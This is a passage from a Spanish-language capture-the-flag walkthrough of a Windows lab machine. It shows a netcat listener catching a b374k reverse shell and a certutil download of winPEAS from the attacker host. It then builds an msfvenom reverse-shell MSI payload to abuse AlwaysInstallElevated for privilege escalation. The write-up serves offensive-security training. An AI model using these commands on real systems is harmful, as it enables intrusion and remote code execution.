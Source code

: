 Si vamos a nuestro `netcat`:

```
nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.239] 50710
b374k shell : connected

Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>whoami
whoami
love\phoeb
```

Hemos conseguido acceso al sistema (La explicación de por qué funciona este exploit será más adelante cuando programemos el autopwn).

Buscamos la flag de usuario:
```
C:\Users\Phoebe\Desktop>type user.txt
type user.txt
3f115dbec9b51e23c3608a87d
```

Bien, tenemos la flag, ahora debemos escalar privilegios.

## [](#header-2)Escalada de privilegios

Para encontrar vías potenciales de escalada utilizaremos `winPEAS.exe`, mediante un servidor http con **python** compartimos el recurso y dentro de la máquina víctima ponemos:

```
certutil.exe -f -urlcache -split http://10.10.14.17/winPEASx64.exe winPEAS.exe
```

Al tenerlo en el equipo lo ejecutamos y buscamos cosas interesantes:

```
Checking AlwaysInstallElevated
 https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!
```

Observamos una posible forma de escalar privilegios, iremos a web de hacktricks para ver en que consiste.

Básicamente, debemos realizar un payload .msi que haga una reverse shell con `msfvenom` y luego ejectuarlo con **msiexec /quiet /qn /i**.

Por lo tanto, creamos el payload:
```
msfvenom -p windows/x64/shell_reverse_tcp  LHOST=10.10.14.17 LPORT=1235 --platform windows -a x64 -f msi -o reverse.msi
```
